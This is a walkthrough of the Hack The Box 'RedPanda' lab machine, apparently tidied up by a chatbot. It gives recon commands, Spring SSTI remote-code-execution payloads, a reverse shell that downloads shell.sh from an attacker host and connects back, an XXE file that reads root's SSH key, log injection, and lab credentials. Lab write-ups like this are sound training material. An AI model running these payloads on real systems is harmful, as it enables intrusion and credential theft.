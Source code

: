 Here’s your **HTB: RedPanda** command and exploitation walkthrough — neatly organized and markdown-ready for your notes 📓🐼:

---

# 🐼 HTB: RedPanda – Command Guide

## 🔍 Recon

### Nmap Full Scan
```bash
nmap -p- --min-rate 10000 10.10.11.170
nmap -p 22,8080 -sCV 10.10.11.170
```

### Add to Hosts File
```bash
echo "10.10.11.170 redpanda.htb" | sudo tee -a /etc/hosts
```

### [Feroxbuster](HTTP) for Paths
```bash
feroxbuster -u http://10.10.11.170:8080 -x java,class
```

---

## 🧠 SSTI Foothold

### Fuzz for Banned Characters
```bash
wfuzz -u http://10.10.11.170:8080/search -d name=FUZZ \
-w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt --ss banned
```

### Valid Payload Examples
```text
*{7*7}
@{7*7}
#{7*7}
```

### RCE via SSTI (in search box)
```text
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

---

## 🐚 Reverse Shell (via SSTI)

### Reverse Shell Payload Script (host locally)
```bash
# /var/www/html/shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

### Drop the shell
```http
*{T(java.lang.Runtime).getRuntime().exec('curl 10.10.14.6/shell.sh -o /tmp/shell.sh')}
*{T(java.lang.Runtime).getRuntime().exec('bash /tmp/shell.sh')}
```

### Catch Reverse Shell
```bash
nc -lvnp 443
script /dev/null -c bash  # for upgrade
```

---

## 🔐 Enumeration

### Confirm Group for PrivEsc Path
```bash
id
```

### Check Files Owned by `logs` Group
```bash
find / -group logs 2>/dev/null | grep -v -e '^/proc' -e '\.m2' -e '^/tmp/'
```

---

## 🔍 Analyze Applications

### Interesting Paths
```bash
/opt/panda_search/
/opt/credit-score/
/credits/
/opt/panda_search/redpanda.log
```

### Note: Web creds (from source)
```bash
user: woodenk
pass: RedPandazRule
```

---

## ⚙️ Root Shell via XXE Chain

### 1. Create Malicious XML (`0xdf_creds.xml`)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY foo SYSTEM 'file:///root/.ssh/id_rsa'>
]>
<credits>
  <author>0xdf</author>
  <image>
    <uri>/img/panda.jpg</uri>
    <views>0</views>
    <root>&foo;</root>
  </image>
  <totalviews>1</totalviews>
</credits>
```

### 2. Tag Image with Metadata (JPG Artist Field)
```bash
cp image.jpg 0xdf.jpg
exiftool -Artist="../tmp/0xdf" 0xdf.jpg
```

### 3. Upload Malicious Files to `/tmp/`
```bash
scp 0xdf.jpg 0xdf_creds.xml woodenk@10.10.11.170:/tmp/
```

### 4. Inject Fake Log Line
```bash
echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> /opt/panda_search/redpanda.log
```

### 5. Wait for Cronjob (~2 mins)

### 6. Extract SSH Key from XML
```bash
cat /tmp/0xdf_creds.xml
```

---

## 🗝️ [SSH](SSH) as Root

### Save and Use Key
```bash
chmod 600 ~/keys/redpanda-root
ssh -i ~/keys/redpanda-root root@10.10.11.170
```

---

## 🎓 Beyond Root: Group Discrepancy

### Web Shell (via SSTI)
```bash
id  # groups: logs, woodenk
```

### SSH Login
```bash
id  # groups: woodenk
```

### Reason
- Java web app started as:
  ```bash
  sudo -u woodenk -g logs java -jar ...
  ```
- SSTI shell inherits logs group
- SSH session doesn’t

---

Let me know if you'd like this wrapped into a Markdown file or Notion-friendly version! 🧩